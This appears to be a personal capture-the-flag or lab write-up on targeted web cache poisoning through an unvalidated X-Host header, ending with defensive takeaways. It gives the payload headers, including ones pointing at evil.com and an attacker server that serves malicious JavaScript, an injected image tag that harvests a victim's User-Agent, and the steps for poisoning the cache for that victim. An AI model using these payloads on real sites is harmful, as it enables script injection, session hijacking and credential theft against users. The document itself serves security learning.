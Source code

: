 # Note(Datetime, Name) : 2025-04-26 Targeted web cache poisoning using an unknown header

### Metodelogy
 1. Investigate the system to retrieve a list of features
 2. Discribe the feature and explain how it works
 3. List possible vulnerabilities and group by feature
 4. Proof of concept for possible vulnerabilities
 5. What is the impact of the vulnerabilities after the proof of concept ? 


# ==========================================================================================================

>

## feature:      
1. GET '/' -> cache hit and indicated User-Agent is cache key due to they use `Vary` Header
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 5881
```
### steps taken:
1. payload -> noting happend 
    ``` 
    X-Forwarded-Host: evil.com
    X-Forwarded-Scheme: http 
    ```
2. payload -> change js url to //<attackerserver>/file.js
    ``` 
    X-Host: <attackerserver>
    ```




## vulnerabilities : 
1. web cahce poisoning  ->using  X-Host: <attackerdomain>

## Proof of concept:
### find victim
1. access /post?postId=<postId> -> in the comment section, some input fields support HTML
2. inject the following to capture the victim's User-Agent : 
    ``` 
    <img src="https://<attackerserver>/foo" /> 
    ```


### send to the target
1. send  payload to the specific target user -> ensure the web is cacheable 
    ``` 
    X-Host: <attackerserver>
    User-Agent: <victim user agent got by log access in attackerserver>
    ```
2. wait for the script  https://<attackerserver>/file.js was execute by the victim

## impact
- The attacker can poison the cache for a specific User-Agent, delivering malicious Javascritp to the target user
- Leads to session hijacking, credential theift, or browser exploitation depending on the payload
- Cache poisoning affect multiple users if a shared or common User-Agent is targeted
- Exploit server-side trust in HTTP header X-Host without proper validation or santiaton

## takeaways
- Avoid trusting unvalidaed HTTP header such as X-Host 
- Do not reflect header values into responses without proper encoding
- Ensure that responses vary appropriate when header affect content 
- Use a strict caching stragy , or disable caching for dynamic pages if unsure
- Regularly audit and monitor logs for unusual patterns and unknown domains


